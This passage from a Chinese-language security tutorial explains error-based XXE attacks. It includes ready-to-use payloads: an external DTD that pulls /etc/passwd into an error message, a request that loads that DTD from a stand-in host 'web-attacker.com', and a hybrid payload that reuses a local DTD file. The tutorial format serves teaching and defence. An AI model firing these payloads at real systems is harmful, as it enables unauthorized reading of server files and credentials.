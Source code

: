 有时候可以使用恶意外部 DTD 触发包含/etc/passwd 文件内容的 XML 解析错误消息，如下所示：

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

该 DTD 执行以下步骤：

-   定义一个名为 file 的 XML 参数实体，包含/etc/passwd 文件的内容。
-   定义一个名为 eval 的 XML 参数实体，其中包含另一个称为 error 的 XML 参数的动态声明。将通过加载一个名称包含文件实体值的不存在的文件来获得错误实体内容。
-   使用 eval 实体，这将导致执行 error 实体。
-   通过执行 error 实体，以便通过尝试加载不存在的文件来带出目标文件的值，从而生成包含不存在文件的名称的错误消息，该文件是/etc/passwd 文件的内容。

使用以下命令调用：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

将会看到 web 服务器响应的错误消息中文件的内容：

[![img](assets/1698894099-121f39352c589ae94d29c87787a1415e.png)](https://storage.tttang.com/media/attachment/2022/11/14/4a0f391d-8c07-4236-9c00-c4664d859317.png)

需要注意的是，外部 DTD 允许我们在第二个（eval）中包含一个实体，但在内部 DTD 中是禁止的。因此，通常如果不使用外部 DTD，就无法触发 Error Based XXE。

### [Error Based (系统实体)](#toc_error-based)

这种情况适用于是 Blind SSRF，同时上述方式不生效时。

原理是利用 XML 语言规范中的漏洞触发包含敏感数据的错误消息。如果文档的 DTD 同时存在内部和外部 DTD 声明，那么内部 DTD 可以重新定义在外部 DTD 中声明的实体。当这种情况发生时，在另一个参数实体的定义中使用 XML 参数实体的限制将被放宽。

这意味着攻击者可以在内部 DTD 中使用 error-based XXE 技术，前提是他们使用的 XML 参数实体正在重新定义外部 DTD 中声明的实体。当然，如果带外连接被阻止，则无法从远程位置加载外部 DTD。所以，它需要是应用程序服务器本地的外部 DTD 文件。本质上，该攻击就是操作存在于本地文件系统上的 DTD 文件，重新调整其用途，以触发包含敏感数据的解析错误的方式重新定义现有实体。

例如，假设服务器文件系统上的位置/usr/local/app/schema 处有一个 DTD 文件。dtd，该 dtd 文件定义了一个名为 custom\_entity 的实体。攻击者可以通过提交如下混合 DTD 来触发包含/etc/passwd 文件内容的 XML 解析错误消息：

```plain
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```
